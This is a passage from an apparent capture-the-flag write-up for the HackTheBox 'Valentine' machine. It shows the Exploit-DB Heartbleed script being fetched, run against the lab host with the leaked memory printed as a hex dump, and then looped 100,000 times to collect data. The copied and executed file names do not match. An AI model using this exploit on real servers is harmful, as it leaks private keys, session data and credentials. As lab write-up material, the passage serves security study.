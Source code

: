     root@kali# searchsploit -m exploits/multiple/remote/32745.py
      Exploit: OpenSSL TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure
          URL: https://www.exploit-db.com/exploits/32745/
         Path: /usr/share/exploitdb/exploits/multiple/remote/32745.py
    File Type: Python script, ASCII text executable, with CRLF line terminators

    Copied to: ~/hackthebox/valentine-10.10.10.79/32745.py



The script runs and grabs memory from the target server (it's useful to
remove lines of 0):



    root@kali# python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
    Trying SSL 3.0...
    Connecting...
    Sending Client Hello...
    Waiting for Server Hello...
     ... received message: type = 22, ver = 0300, length = 94
     ... received message: type = 22, ver = 0300, length = 885
     ... received message: type = 22, ver = 0300, length = 331
     ... received message: type = 22, ver = 0300, length = 4
    Sending heartbeat request...
     ... received message: type = 24, ver = 0300, length = 16384
    Received heartbeat response:
      0000: 02 40 00 D8 03 00 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
      0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
      0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
      0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
      0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
      0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
      0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
      0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
      0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
      0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
      00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
      00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
      00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
      00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 BF 6B 6E 41  ....#........knA
      00e0: 39 66 FE 4D BC F2 D4 12 DD 9E 97 59 61 A9 1D 4D  9f.M.......Ya..M
      00f0: 77 11 D3 8B 4F 11 AD 87 2F 50 B9 4E 13 E7 92 86  w...O.../P.N....
      0100: F1 0B 04 3B 97 CB 19 00 0B 00 0C 00 18 00 09 00  ...;............
      0110: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
      0120: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
      0130: 10 00 11 00 23 00 00 00 0D 00 20 00 1E 06 01 06  ....#..... .....
      0140: 02 06 03 05 01 05 02 05 03 04 01 04 02 04 03 03  ................
      0150: 01 03 02 03 03 02 01 02 02 02 03 00 0F 00 01 01  ................
      0160: 00 15 00 9C 00 00 00 00 00 00 00 00 00 00 00 00  ................

    WARNING: server returned more data than it should - server is vulnerable!



I ran it a ton of times to collect a bunch of data:
`for i in $(seq 1 100000); do python 32764.py 10.10.10.79 | grep -v "00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00" > data_dump/data_dump$i; done`
